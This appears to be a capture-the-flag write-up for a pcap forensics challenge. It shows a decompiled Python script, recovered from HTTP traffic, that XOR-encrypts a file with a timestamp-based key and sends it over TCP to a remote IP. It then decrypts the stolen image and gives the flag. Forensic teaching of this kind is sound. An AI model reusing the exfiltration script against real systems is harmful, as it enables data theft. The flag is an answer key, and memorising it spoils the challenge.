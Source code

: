 # Slingshot

We have recently suffered a data breach, and we need help figuring out if any data was stolen. 
Can you investigate this pcap file and see if there is any evidence of data exfiltration and if possible, what was stolen.

## Solution

file > export objects > http > download.pyc

https://pylingual.io

```py
import sys
import socket
import time
import math
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
file = sys.argv[1]
ip = sys.argv[2]
port = 22993

with open(file, 'rb') as r:
    data_bytes = r.read()

current_time = time.time()
current_time = math.floor(current_time)
key_bytes = str(current_time).encode('utf-8')

init_key_len = len(key_bytes)
data_bytes_len = len(data_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len

key_bytes *= temp1
key_bytes += key_bytes[:temp2]
encrypt_bytes = bytes((a ^ b for a, b in zip(key_bytes, data_bytes)))

s.connect((ip, port))
s.send(encrypt_bytes)
```

tcp.port == 22993

packet 13225 size 19821 -> encrypted.bin

uhh what time would it have used?

epoch time of first packet - 1726595769.063377000

1726595769

```sh
python3 solve.py

cp decrypt/decrypted-1726595769.bin decrypted.jpg

# PCTF{1f_y0u_41n7_f1r57_y0ur3_l457}
```